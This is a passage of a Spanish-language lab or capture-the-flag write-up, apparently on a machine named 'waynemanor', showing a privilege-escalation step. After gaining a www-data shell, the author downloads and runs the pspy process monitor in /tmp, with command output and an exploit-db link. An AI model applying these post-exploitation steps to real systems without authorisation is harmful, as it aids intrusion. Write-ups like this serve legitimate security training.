 Ahora con una shell como el usuario _www-data_ iniciaremos la escalada de privilegios.

A continuación nos descargamos el binario de _pspy_ (herramienta para la monitorización de procesos) y lo pondremos en escucha en el equipo para ver en tiempo real qué procesos se están ejecutando.

```sh
www-data@waynemanor:/tmp$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
--2021-04-14 18:06:53--  https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://github-releases.githubusercontent.com/120821432/d54f2200-c51c-11e9-8d82-f178cd27b2cb?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-
Resolving github-releases.githubusercontent.com (github-releases.githubusercontent.com)... 185.199.111.154, 185.199.108.154, 185.199.110.154, ...
Connecting to github-releases.githubusercontent.com (github-releases.githubusercontent.com)|185.199.111.154|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                          100%[====================================================================================================>]   2.94M  10.2MB/s    in 0.3s

2021-04-14 18:06:54 (10.2 MB/s) - ‘pspy64’ saved [3078592/3078592]

www-data@waynemanor:/tmp$ chmod +x pspy64
```

Ejecutamos el binario y nos irán apareciendo distintos procesos de los distintos usuarios.

```sh
www-data@waynemanor:/tmp$ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2021/04/14 18:08:32 CMD: UID=0    PID=99     |
2021/04/14 18:08:32 CMD: UID=33   PID=983    | php-fpm: pool www
2021/04/14 18:08:32 CMD: UID=33   PID=982    | php-fpm: pool www
```


[exploitdb]: https://www.exploit-db.com/exploits/49573